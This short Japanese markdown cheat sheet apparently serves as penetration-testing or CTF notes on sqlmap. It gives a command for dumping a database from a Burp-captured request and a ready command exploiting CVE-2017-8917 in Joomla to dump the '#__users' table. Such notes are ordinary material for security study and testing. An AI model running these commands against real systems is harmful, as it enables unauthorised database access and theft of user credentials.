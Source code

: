 # sqlmap

## Webアプリ上のSQLI

※事前にBurpでリクエストとレスポンスをキャプチャしておく。

```
sqlmap -r req.txt --dbms={mysql/Z} --dump
```

## CVE-2017-8917


```
sqlmap -u "http://<remote-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```


参考）https://www.exploit-db.com/exploits/42033
